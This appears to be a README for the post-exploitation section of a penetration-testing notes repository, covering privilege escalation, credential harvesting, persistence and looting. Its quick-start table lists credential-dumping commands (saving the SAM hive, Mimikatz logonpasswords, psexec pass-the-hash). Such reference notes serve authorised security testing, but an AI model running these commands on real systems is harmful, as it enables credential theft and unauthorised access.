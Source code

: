 # 04 – Post Exploitation

This section contains techniques for maintaining access, escalating privileges, extracting credentials, and gathering sensitive data after initial compromise.

---

## 📌 Contents

| File                   | Description |
|------------------------|-------------|
| `windows_priv_esc.md`  | Windows privilege escalation methods and checks. |
| `linux_priv_esc.md`    | Linux privilege escalation methods and checks. |
| `mimikatz.md`          | Mimikatz usage for credential dumping. |
| `hashdump.md`          | Dumping and cracking password hashes. |
| `token_impersonation.md` | Windows token impersonation and pass-the-hash/ticket. |
| `persistence.md`       | Techniques for maintaining access. |
| `loot.md`              | Locating and extracting sensitive files/data. |

---

## 🛠 Usage

1. **Privilege Escalation:** Start with OS-specific priv-esc checks.
2. **Credential Harvesting:** Use `mimikatz.md`, `hashdump.md`, and `token_impersonation.md`.
3. **Persistence:** Apply persistence techniques if in-scope.
4. **Looting:** Extract sensitive files and prepare for exfiltration.

---

## 🔍 Quick Start Commands

| Task                   | Command |
|------------------------|---------|
| Windows priv-esc       | `whoami /priv` |
| Linux priv-esc         | `sudo -l` |
| Dump SAM               | `reg save HKLM\SAM sam.save` |
| Mimikatz logon creds   | `sekurlsa::logonpasswords` |
| Pass-the-Hash          | `psexec.py <DOMAIN>/<USER>@<TARGET> -hashes :<NTLM>` |

---

> **Tip:** Keep `loot.md` updated with your own common file paths for quick wins.
